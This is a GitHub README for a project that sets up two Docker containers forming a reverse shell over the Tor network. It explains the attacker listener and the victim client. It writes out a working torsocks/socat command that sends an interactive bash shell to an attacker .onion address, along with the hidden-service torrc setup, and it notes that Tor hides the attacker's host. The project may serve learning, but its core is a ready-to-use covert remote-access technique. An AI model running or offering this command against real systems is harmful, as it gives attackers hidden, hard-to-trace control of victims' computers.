 <div align="center">
<img src="https://img.shields.io/badge/docker-%230db7ed.svg?style=for-the-badge&logo=docker&logoColor=white" alt="docker" />

<img src="https://img.shields.io/badge/tor-%237E4798.svg?style=for-the-badge&logo=tor-project&logoColor=white" alt="tor-web-server"/>

<img src="https://img.shields.io/badge/Ubuntu-E95420?style=for-the-badge&logo=ubuntu&logoColor=white" alt="ubuntu-linux"/>

<img src="" alt=""/>

</div>
<br/>
<br/>

## **💻 Project**

We created **_two containers_** in isolation that communicate with the **_Tor network_** forming a **_reverse shell_**. In this way, an attacker listens for connections from the Tor network while the victim's computer connects to the attacker.

<p align="center">
<img src="./assets/architecture.png" alt="architecture" width="700px"/>
</p>

To create the docker images we used [Ubuntu](https://ubuntu.com/) and installed [socat](https://linux.die.net/man/1/socat) and [tor](https://community.torproject.org/relay/setup/bridge/debian-ubuntu/) via apt-get as you can see in the dockerfiles. This project is the continuation of [this one](https://github.com/tpaphysics/reverse-shell).

## **🚀 Get Started**

First open two different instances of the terminal run the script **_start_listen.sh_** in one and **_start_rshell.sh_** in the other:

<p align="center">
<img src="./assets/example.gif" alt="example"/>
</p>

## **🌐 Client explanation**

In order for the client to be able to make calls to the attacker, the rshell container needs to be on the tor network and execute the following command:

```bash
# example attacker host
ATTACKER_HOST=lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion
ATTACKER_PORT=80

torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$ATTACKER_HOST:$ATTACKER_PORT
```

The **_torsocks_** command guarantees the the victim's ability to making calls to hosts on the Tor network.

## **🌐 Server explanation**

To create the server on the Tor network we must include the file **_torrc_** in the directory **_/etc/tor/_** this way we will get a host on the Tor network.

```bash
# torrc example
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:80
```

After starting the **_listen_** container you can see the host created by running the command:

```bash
docker exec -it listen cat /var/lib/tor/hidden_service/hostname

# out example
lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion
```

Then every call the victim makes to host `lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion` will be redirected to the **_socat_** server which is listening locally on port 80.

## **💥 Considerations**

There are many ways to create reverse shell as you can see [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). We use socat because it's easy to create a reverse shell with interactive PTY and auto complete. Using the Tor network it is very difficult to discover the attacker's host.

## **👨‍🚀 Author**

<a href="https://github.com/tpaphysics">
<img alt="Thiago Pacheco" src="https://images.weserv.nl/?url=avatars.githubusercontent.com/u/46402647?v=4?v=4&h=300&w=300&fit=cover&mask=circle&maxage=7d" width="100px"/>
  <br />
  <sub>
    <b>Thiago Pacheco de Andrade</b>
  </sub>
</a>
<br />

👋 My contacts!

[![Linkedin Badge](https://img.shields.io/badge/-LinkedIn-blue?style=for-the-badge&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/thiago-pacheco-200a1a86/)](https://www.linkedin.com/in/thiago-pacheco-200a1a86/)
[![Gmail Badge](https://img.shields.io/badge/-Gmail-c14438?style=for-the-badge&logo=Gmail&logoColor=white&link=mailto:physics.posgrad.@gmail.com)](mailto:physics.posgrad.@gmail.com)

## **📝 License**

This project has an MIT [license](LICENSE.md).
